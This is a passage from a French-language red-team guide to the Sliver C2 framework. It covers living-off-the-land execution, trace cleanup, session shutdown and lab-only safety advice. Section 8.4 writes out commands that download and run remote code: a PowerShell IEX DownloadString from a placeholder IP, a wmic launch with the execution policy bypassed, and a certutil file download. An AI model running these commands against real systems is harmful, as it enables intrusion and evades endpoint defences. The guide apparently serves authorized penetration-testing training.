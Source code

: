 ### 8.4 Techniques de living-off-the-land
```bash
# PowerShell
execute powershell.exe -ep bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://[IP]/script.ps1')"

# Windows Management Instrumentation
execute wmic process call create "powershell.exe -ep bypass -c [COMMAND]"

# Certutil pour téléchargement
execute certutil -urlcache -split -f http://[IP]/file.exe file.exe
```

---

## 9. Nettoyage et Recommandations

### 9.1 Nettoyage des traces
```bash
# Suppression des fichiers temporaires
execute del C:\temp\*.exe /f /q

# Nettoyage du registre
execute reg delete "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "MaliciousApp" /f

# Arrêt des services créés
execute sc stop MaliciousService
execute sc delete MaliciousService

# Suppression des tâches planifiées
execute schtasks /delete /tn "MaliciousTask" /f
```

### 9.2 Arrêt propre de Sliver
```bash
# Fermeture des sessions
sessions -k [SESSION_ID]

# Arrêt des listeners
jobs -k [JOB_ID]

# Sortie du client
exit
```

### 9.3 Recommandations de sécurité
- **Utilisez uniquement dans un environnement de laboratoire contrôlé**
- **Obtenez toujours une autorisation écrite avant tout test**
- **Documentez toutes les actions effectuées**
- **Nettoyez complètement après les tests**
- **Respectez les lois locales et internationales**

---
